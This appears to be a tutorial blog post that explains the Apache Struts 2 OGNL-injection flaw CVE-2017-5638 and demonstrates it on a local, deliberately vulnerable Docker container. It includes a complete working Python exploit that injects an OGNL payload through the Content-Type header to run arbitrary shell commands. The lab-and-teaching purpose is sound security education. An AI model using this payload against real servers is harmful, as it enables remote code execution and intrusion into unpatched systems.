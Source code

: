 +++ 
draft = false
date = 2022-02-15T18:31:43-05:00
title = "Apache Struts 2 CVE-2017-5638 Docker Container"
description = "A look into a containerized version of another Apache vulnerability"
slug = ""
authors = []
tags = []
categories = []
externalLink = ""
series = []
+++
In line with the recent [Apache Log4j CVE-2021-44832](https://www.codingwithcarl.com/posts/2021-12-14-log4j/), and since we're exploring [Docker](https://www.codingwithcarl.com/posts/2021-11-30-docker/) containers, I think its the perfect time to explore another Apache vulnerability. In this post, we'll be look at Apache Struts 2.

### CVE-2017-5638

Apache Struts is a popular framework for developing web applications. Like Log4j, it's written in Java. In 2017, a vulnerability was discovered. An attacker could perform remote code execution on a victim server. One of the victims, Equifax, suffered a catastrophic data breach.

The vulnerable code was in the Jakarta Multipart parser. If the Content-Type value isn’t valid, that is, it does not match an expected valid type, an exception is thrown that is then used to display an error message to a user. In this case, we can set the Content-Type to an OGNL expression such as:

`Content-Type: ${(#_='multipart/form-data')`

The vulnerability occurs because the Content-Type is not escaped after the error, and is then used by LocalizedTextUtil.findText function to build the error message. This function will interpret the supplied message, and anything within ${…} will be treated as an Object Graph Navigation Library (OGNL) expression and evaluated as such. The attacker can leverage these conditions to execute OGNL expressions that in turn execute system commands. This is almost similar to Log4j where commands and arbitrary code could be executed directly from the logger.

### Getting the Container & Exploit

The vulnerable version of Struts 2 is available as a docker container here: [Apache Struts 2 CVE-2017-5638 Container](https://hub.docker.com/r/piesecurity/apache-struts2-cve-2017-5638). We will deploy the container and run the exploit to test it out. This will show us how third party frameworks, like Apache Struts 2, can be exploited even when running in a container environment, such as Docker.

1. Ensure you have an account at [Docker Hub](hub.docker.com/signup)

2. Log into Docker Hub from your local Docker instance with [docker login](https://docs.docker.com/engine/reference/commandline/login/)

3. Run the following commands to pull and run the vulnerable container:

    ```bash
    docker pull piesecurity/apache-struts2-cve-2017-5638
    ```

    ```bash
    docker run -d -p 9080:8080 --rm --name apache piesecurity/apache-struts2-cve-2017-5638
    ```

4. If you don't have Python, [install it](https://www.python.org/downloads/)

5. Create a Python script called `exploit.py` and copy/paste the following code into it:

    ```python
    import http.client
    import urllib.error
    import urllib.parse
    import urllib.request


    def exploit(url, cmd):
        payload = "%{(#_='multipart/form-data')."
        payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
        payload += "(#_memberAccess?"
        payload += "(#_memberAccess=#dm):"
        payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
        payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
        payload += "(#ognlUtil.getExcludedPackageNames().clear())."
        payload += "(#ognlUtil.getExcludedClasses().clear())."
        payload += "(#context.setMemberAccess(#dm))))."
        payload += "(#cmd='%s')." % cmd
        payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
        payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
        payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
        payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
        payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
        payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
        payload += "(#ros.flush())}"
        try:
            headers = {'User-Agent': 'Mozilla/5.0', 'Content-Type': payload}
            request = urllib.request.Request(url, headers=headers)
            page = urllib.request.urlopen(request).read()
        except http.client.IncompleteRead as e:
            page = e.partial
        print(page)
        return page


    if __name__ == '__main__':
        import sys

        if len(sys.argv) != 3:
            print("[*] str.py <url> <cmd>")
        else:
            print('[*]CVE: 2017-5638 - Apache Struts2 S2-045')
            url = sys.argv[1]
            cmd = sys.argv[2]
            print(("[*] cmd: %s\n" % cmd))
            exploit(url, cmd)
    ```

### Hacking

1. Run `docker ps` from the terminal to check that the container is running.

2. Once the struts container is running, go to [localhost:9080/](localhost:9080/) - you should see a welcome screen for Struts2 Showcase. 

3. Begin testing the RCE. You can now issue commands to the container outside of its shell with the following syntax:
    
    ```bash
    python exploit.py http://localhost:9080/ "whoami"
    ```

4. You'll see **b'root\n'** printed to the terminal if everything worked correctly. Replace `whoami` to experiment with other commands as if you were executing commands from within the container.

    - `pwd`
    - `ls`
    - `ls -la`

5. When you're finished, you can stop the docker with `docker stop apache`

### Summary

*Distrust, verify, and stay suspicious.*

I hope this demonstrates the importance of security when dealing with Docker containers and third party programs. Although in today's world, you probably shouldn't build everything from scratch (as you'll probably introduce more vulnerabilities if you don't know what you're doing) you should at least be aware of the risks when using any third party framework, library, or program - even if it is open source and audited. Always stay up to date on the latest security patches for your critical systems.

---

#### References / Additional Info

[Docker for Developers](https://www.packtpub.com/product/docker-for-developers/9781789536058)

[Apache Struts 2](https://struts.apache.org/)

[Apache Struts 2 CVE-2017-5638 Container](https://hub.docker.com/r/piesecurity/apache-struts2-cve-2017-5638)

[Apache Commons OGNL - Object Graph Navigation Library](https://commons.apache.org/proper/commons-ognl/)

[Exploit Demo for CVE-2017-5638](https://github.com/frankhuurman/struts2-rce)

[Equifax Data Breach](https://archive.epic.org/privacy/data-breach/equifax/)

[CVE-2017-5638: The Apache Struts vulnerability explained](https://www.synopsys.com/blogs/software-security/cve-2017-5638-apache-struts-vulnerability-explained/)

[CVE-2021-44228 - Log4j - MINECRAFT VULNERABLE!](https://youtu.be/7qoPDq41xhQ)
